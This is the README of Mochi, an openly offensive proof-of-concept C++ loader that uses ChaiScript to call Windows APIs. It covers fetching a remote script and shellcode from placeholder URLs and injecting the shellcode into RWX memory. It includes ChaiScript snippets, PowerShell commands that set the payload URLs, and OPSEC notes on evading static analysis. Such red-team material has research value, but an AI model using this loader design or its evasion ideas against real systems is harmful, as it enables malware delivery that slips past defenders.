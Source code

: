 # Mochi | 餅

![logo](mochi-img.png)

## Overview
Mochi is a proof-of-concept C++ loader that leverages the [ChaiScript](https://chaiscript.com/) embedded scripting language to execute code. It is based on the [lcscript](https://github.com/domzigm/lcscript) project that extends ChaiScript with native Windows API call support. Mochi was built to allow remote loading of ChaiScript files that orchestrate lower level code and execute offensive actions with the Windows API.

Using a scripting language to extend malware in C++ is not a new idea. Of notable mention is the [Flame malware](https://en.wikipedia.org/wiki/Flame_(malware)), whose authors scripted high-level logic in [Lua](https://www.lua.org/). However, Mochi demonstrates that ChaiScript can be a viable alternative for implementing modularity and interacting with the Windows API from a scripting language. Additionally, ChaiScript was designed from the beginning to be used with C++. This makes integration and development straightforward for projects written in that language.

Inspiration for this capability came from the game development community and their usage of scripting languages with game engines. ChaiScript has been integrated into several game engines to support scripting functionality. For reference, see the following projects:
* https://github.com/libretro/libretro-chailove
* https://github.com/sainteos/nymph-game-engine
* https://gitlab.com/define-private-public/Masala

![screen_0](https://i.imgur.com/VhwNCdO.png)

## Features
* Code to perform tasks such as process injection can be omitted from the loader until required by an operator at runtime.
* Easily extend the Mochi loader with additional functionality using ChaiScript files. 
    * Included sample script ([inject.chai](Mochi/scripts/inject.chai)) demonstrates usage of the Windows APIs (VirtualAlloc, RtlMoveMemory) to setup shellcode injection.

## Limitations
* Code used to expose ChaiScript to the Windows API is no longer maintained by the original author.
* Usage of pointers within ChaiScript Windows API calls is complicated.
* A limited number of Windows API calls have been tested and successfully used within ChaiScript, there may be issues with implementing more complicated APIs.
* The `inject.chai` script sets up memory for process injection, but relies on a function defined within `Mochi.cpp` to perform the execution.

## Setup

### Build Environment
* A Windows 10 host was used as the environment for testing/compilation. 
* Visual Studio 2019 was used for development of this project.
* The Visual Studio package [Desktop Development with C++](https://devblogs.microsoft.com/cppblog/windows-desktop-development-with-c-in-visual-studio) was installed to support building the loader in C++.
* vcpkg was used to build and install the required ChaiScript libraries, it can be installed [here](https://github.com/microsoft/vcpkg#quick-start-windows).

### Automated Installation with vcpkg
I've used the script located [here](/helper_scripts/install_chaiscript_cpp_deps.ps1) to automate installation of **vcpkg** and the **ChaiScript** libraries on my host. Use this if you don't already have vcpkg installed.
* **NOTE:** Git is needed to fetch the vcpkg from GitHub and can be installed for Windows [here](https://gitforwindows.org).

### Manual Installation with vcpkg

To build the ChaiScript libraries, navigate to the location of your vcpkg install and execute the following command:
```
.\vcpkg.exe install chaiscript:x64-windows-static
```

## Usage

### Proof-of-Concept
The Mochi loader implements local process injection of a shellcode payload. This is intended to demonstrate the technique of using ChaiScript files that leverage the Windows API for offensive tasks. It does this by fetching the contents of a ChaiScript file, executing the script, the script will fetch the contents of a shellcode payload, it will call the Windows APIs to allocate/write memory and then call a function from inside Mochi to execute the memory.

To run the Mochi PoC, you'll need to perform the following steps:
1. Generate a shellcode payload in binary format.
* During testing, [sRDI](https://github.com/monoxgas/sRDI) was used to convert a [message box payload](https://github.com/monoxgas/sRDI/tree/master/TestDLL) DLL file to a shellcode "*.bin" file.
2. Upload the shellcode payload binary file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
3. Execute the following PowerShell helper script with your shellcode payload URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -payloadUrl "https://example.com/shellcode.bin"
```
4. At this point, the `inject.chai` file at the `Mochi\scripts\` path will be populated with your shellcode payload URL and be ready to execute.
5. Upload the `inject.chai` file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
6. Execute the following PowerShell helper script with your ChaiScript file URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -scriptUrl "https://example.com/inject.chai"
```
7. At this point, the `Mochi.cpp` file at the `Mochi\` path will be populated with your ChaiScript file URL and be ready for compilation.
8. Compile Mochi in the Visual Studio project and execute binary to validate successful initialization.

### Writing Scripts
To demonstrate how scripts can be written with ChaiScript to call the Windows API, see the following steps to call VirtualAlloc from kernel32.dll inside a ChaiScript file:
1. Import the library:
```
var libKernel32 = LoadLibrary("kernel32.dll");
```
2. Initialize the desired function:
```
var allocMem = funCall();
allocMem.init(libKernel32, "VirtualAlloc", 2);
```
3. Set up the required arguments:
```
var payload = "\xde\xad\xbe\xef";
var size = payload.size();
var allocType = 0x00001000;
var memProtect = 0x40;

allocMem.argUInt64(0);
allocMem.argUInt64(size);
allocMem.argUInt64(allocType);
allocMem.argUInt64(memProtect);
```
4. Call the function and assign the return value to a variable:
```
var allocAddr = allocMem.evalUInt64();
```

## OPSEC Considerations
Due to the PoC nature of this project, it was not built with OPSEC in mind. However, I will outline some possible features that could be present in a production deployment of this kind of project as well as OPSEC caveats:
* Feature: Encryption/decryption of ChaiScript files.
* Feature: Obfuscation/deobfuscation of ChaiScript files.
* Feature: Addition of ChaiScript modules that implement more modern methods of shellcode injection.
* Feature: Built-in string obfuscation in Mochi.
* Caveat: Mochi obscures the malicious intent of the binary during static analysis by omitting offensive functionality until execution of ChaiScript files during launch. It will ***NOT*** change anything from an evasion standpoint when it is observed during dynamic analysis. Additional obfuscation and evasion would need to be implemented in the ChaiScript files themselves if the intent is to mislead dynamic analysis tooling.

## Credits
* Dominik for the Windows API call support: https://github.com/domzigm/lcscript
* ondradus for the PoC HTTP request code: https://github.com/ondradus/WinINet---Simple-GET-POST-request
